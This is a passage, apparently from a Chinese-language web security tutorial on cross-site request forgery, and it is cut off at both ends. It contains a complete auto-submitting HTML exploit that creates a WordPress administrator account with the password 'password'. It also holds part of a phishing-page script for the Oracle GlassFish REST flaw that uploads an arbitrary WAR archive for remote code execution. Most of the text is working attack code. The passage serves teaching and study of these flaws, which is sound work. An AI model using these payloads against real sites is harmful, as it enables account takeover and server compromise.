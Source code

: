 ```html
</html>
```

另一个测试用例时添加某个具有管理员权限的用户，测试用例为

```html
<html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to add Administrator</h2>
    <form
      method="POST"
      name="form0"
      action="http://<wordpress_ip>:80/wp-admin/user-new.php"
    >
      <input type="hidden" name="action" value="createuser" />
      <input
        type="hidden"
        name="_wpnonce_create-user"
        value="<sniffed_value>"
      />
      <input
        type="hidden"
        name="_wp_http_referer"
        value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"
      />
      <input type="hidden" name="user_login" value="admin2" />
      <input type="hidden" name="email" value="admin2@admin.com" />
      <input type="hidden" name="first_name" value="admin2@admin.com" />
      <input type="hidden" name="last_name" value="" />
      <input type="hidden" name="url" value="" />
      <input type="hidden" name="pass1" value="password" />
      <input type="hidden" name="pass2" value="password" />
      <input type="hidden" name="role" value="administrator" />
      <input type="hidden" name="createuser" value="Add+New+User+" />
    </form>
  </body>
</html>
```

## Oracle GlassFish Server - REST Cross-Site Request Forgery

该漏洞是由 Security-Assessment.com 发现的，Oracle GlassFish 服务器的 REST 接口可以被 CSRF 请求攻击，譬如其可以允许普通用户任意上传 WAR 包，并且可以控制在服务端运行从而导致窃取其他运行应用的信息。关于具体的攻击复盘可以参考[这里](http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html)。其攻击手段是首先在钓鱼站点上设置如下按钮

```
<button id="upload" onclick="start()" type="button">Upload WAR Archive</button>
```

然后添加如下脚本

```js
var logUrl = 'http://glassfishserver/management/domain/applications/application';

function fileUpload(fileData, fileName) {
    var fileSize = fileData.length,
      boundary = "---------------------------270883142628617",
      uri = logUrl,
      xhr = new XMLHttpRequest();

    var additionalFields = {
          asyncreplication: "true",
          availabilityenabled: "false",
          contextroot: "",
        createtables: "true",
```